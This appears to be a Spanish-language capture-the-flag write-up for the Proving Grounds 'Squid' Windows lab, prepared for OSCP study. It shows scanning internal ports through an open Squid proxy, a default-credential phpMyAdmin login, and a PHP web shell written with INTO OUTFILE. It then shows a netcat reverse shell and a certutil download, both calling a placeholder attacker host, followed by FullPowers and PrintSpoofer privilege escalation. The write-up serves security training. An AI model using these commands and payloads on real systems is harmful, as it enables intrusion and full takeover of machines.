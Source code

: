 ```yaml
---
layout: single
title: PG Practice (OSCP Prep.) - Squid Writeup
excerpt: "Es ahora el turno de una máquina Windows, algo importantísimo para el OSCP. En este caso, nos aprovecharemos de un proxy Squid para descubrir puertos internos de la máquina. Posteriormente, accederemos a un phpMyAdmin con credenciales por defecto y escalaremos privilegios de una forma muy interesante utilizando la herramienta FullPowers.exe."
date: 2025-04-10
classes: wide
header:
  teaser: /assets/images/pg-writeup-squid/pg_writeup_squid.webp
  teaser_home_page: true
  icon: /assets/images/windows_logo.webp
categories:
  - Proving Grounds Practice
  - OSCP
tags:
  - Squid Proxy
  - PhpMyAdmin
  - FullPowers - Privilege Escalation
---
```


Comenzamos la máquina sin rodeos.

<p align="center">
<img src="/assets/images/pg-writeup-squid/start_keyboard.gif">
</p>

# Enumeración 

```bash
nmap -p- -sS -sCV --min-rate 5000 --open -v -n -Pn 192.168.182.189 -oG allports
```

# Puertos: 

```bash
Nmap scan report for 192.168.182.189
Host is up (0.040s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-25T16:45:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 25 17:45:45 2025 -- 1 IP address (1 host up) scanned in 95.65 seconds
```

Veo que hay un proxy Squid abierto. Podría intentar comprobar si hay algún puerto web típico accesible internamente, pero no expuesto externamente, aprovechando el acceso a través del proxy Squid. Esto lo considero ya que, al intentar enumerar el puerto 445 con `smbclient -L 192.168.182.189 -U ''`, recibo un mensaje de permiso denegado.

```bash
for port in 80 8081 8080 8000 ; do curl -s -X GET http://127.0.0.1:$port -x http://192.168.182.189:3128 -I | grep -i "200 OK" && echo "Puerto: $port Abierto" ; done

HTTP/1.1 200 OK
Puerto: 8080 Abierto
```

**Explicación**: Al hacer uso de puertos típicos que podrían estar abiertos, intento enviar un `curl` hacia ellos a la dirección `127.0.0.1`. Sin embargo, no se trata de mi máquina local, ya que, al pasar por el proxy Squid con el parámetro `-x` en `curl`, la máquina víctima, actuando como intermediario, se está refiriendo a su propio localhost. Por lo tanto, estamos enumerando los puertos de la máquina víctima.

El puerto `8080` está abierto, por lo tanto, podría intentar configurar el puerto 3128 de la máquina víctima como proxy en FoxyProxy y así acceder a la web.

Por lo tanto, ahora, para acceder a la web a través de `FoxyProxy` en `Firefox`, agregaré el proxy Squid de la máquina víctima, es decir, `192.168.182.189` en el puerto `3128`, para poder acceder a ese puerto, ya que no está expuesto hacia afuera.

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225180402.png">
</p>

Y vemos la web

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225180430.png">
</p>

Si nos fijamos en la parte inferior, veo que hay un `PhpMyAdmin`. He probado a ingresar con las credenciales típicas de `root` y contraseña `''`, es decir vacía, y he logrado acceder. Ahora, ejecuto este comando para escribir un archivo shell.php en el servidor y ejecutar comandos.

# Intrusión mediante consulta SQL en PhpMyAdmin: Carga de shell.php y ejecución de comandos

Podría intentar verificar si tengo permisos para escribir en un archivo del servidor y, mediante una consulta `SQL`, exportar un código malicioso en `PHP` que me permita ejecutar comandos a través del parámetro `cmd` y la función `system`.

En el apartado de consultas `SQL` de `PhpMyAdmin` escribimos esto:

```sql
SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "C:/wamp/www/shell.php"
```

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225185116.png">
</p>

Ahora simplemente buscamos el archivo `shell.php` en la raíz del servidor y probamos a ejecutar comandos.

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225185132.png">
</p>

Y obtenemos ejecución de comandos

Ejecuto esto para tener una consola interactiva:

```powershell
http://192.168.182.189:8080/shell.php?cmd=\\<TU-IP>\shareFolder\nc.exe -e cmd <TU-IP> <TU-PUERTO>
```

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225192943.png">
</p>

Descárgate el netcat de este lugar y usa el `nc64.exe` -> [nc.exe](https://eternallybored.org/misc/netcat/)

Levanta su servidor `smb` con `smbserver` de `impacket`

```bash
smbserver.py shareFolder $(pwd) -smb2support
```

Ponte en escucha con `netcat` y `rlwrap`

```bash
rlwrap nc -nvlp <TU-PUERTO>
```

# Escalada de privilegios - FullPowers 

[FullPowers](https://github.com/itm4n/FullPowers)

**Explicación**: El creador del exploit ha descubierto que, en Windows, algunos servicios ejecutados como LOCAL SERVICE o NETWORK SERVICE están configurados para operar con un conjunto restringido de privilegios. Esto significa que, aunque el servicio sea comprometido, no se obtienen los privilegios de suplantación dorada, y la escalada de privilegios a LOCAL SYSTEM debería ser más compleja. Sin embargo, el creador del exploit ha encontrado que, al crear una tarea programada, el nuevo proceso generado por el Task Scheduler Service posee todos los privilegios predeterminados de la cuenta de usuario asociada (excepto SeImpersonate). Por lo tanto, mediante manipulaciones de tokens, es posible generar un nuevo proceso con todos los privilegios faltantes.

Simplemente subimos el archivo `.exe` con `certutil` y lo ejecutamos

```powershell
certutil.exe -f -urlcache -split <TU-IP>/FullPowers.exe FullPowers.exe 
```

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225193613.png">
</p>

Ahora ejecutamos un `whoami /priv` para ver nuestros privilegios y vemos que tenemos el privilegio `SeImpersonatePrivilege`

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225193635.png">
</p>

Ahora simplemente utilizaré [PrintSpoofer](https://github.com/k4sth4/PrintSpoofer/blob/main/PrintSpoofer.exe)

```powershell
C:\Windows\Temp\privesc>.\PrintSpoofer -i -c powershell
```

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225193841.png">
</p>

Máquina completada!! 

<p align="center">
<img src="/assets/images/leonardo-dicaprio-clapping.gif">
</p>

Gracias por leer.




